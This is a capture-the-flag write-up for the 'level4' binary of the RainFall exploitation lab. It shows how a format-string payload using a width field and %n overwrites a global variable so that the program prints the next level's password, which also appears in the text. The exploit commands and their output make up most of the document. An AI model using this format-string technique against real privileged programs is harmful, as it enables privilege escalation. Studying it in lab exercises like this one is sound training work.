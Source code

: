 Level4 protections:
```Shell
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level4/level4
```

Level4 rights:
```Shell
-rwsr-s---+ 1 level5 users 5252 Mar  6  2016 level4
```

This binary has the same behaviour as the other one.
Decompiling with Ghidra on https://dogbolt.org/ shows the main difference with the previous executable: `m` is compared to a value much bigger than the size of the buffer (0x1025544, which is 16930116 in decimal for a buffer of size 520). Also, if the condition is met, we don't get a shell but the password itself.

We will try to apply the same method, but we must find a way to bypass the size problem.
First, we get `m` address from gdb:
```Shell
0x0804848d <+54>:    mov    0x8049810,%eax
0x08048492 <+59>:    cmp    $0x1025544,%eaxx
```
This is the address of `m` converted into little endian: `\x10\x98\x04\x08`.

Then, we get our buffer's position on the stack:
```Shell
level4@RainFall:~$ ./level4
AAAA %p %p %p %p %p %p %p %p %p %p %p %p
AAAA 0xb7ff26b0 0xbffff794 0xb7fd0ff4 (nil) (nil) 0xbffff758 0x804848d 0xbffff550 0x200 0xb7fd1ac0 0xb7ff37d0 0x41414141
```
Now we know it starts at the 12th index.

The only thing missing from our payload is the syntax to bypass the size limitation. With a bit of research, we found out that using the optional width field with `%d` allows us to print the correct number of characters before reaching `%n`.

Our payload will be:
```Shell
level4@RainFall:~$ python -c 'print("\x10\x98\x04\x08" + "%16930112d%12$n")' > /tmp/payload4
```

And the result is:
```Shell
level4@RainFall:~$ cat /tmp/payload4 | ./level4
[...]
-1208015184
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```
Note that there is no need to keep stdin open, as we do not launch `/bin/sh` but a simple `cat` command. The extra number corresponds to `%d`.
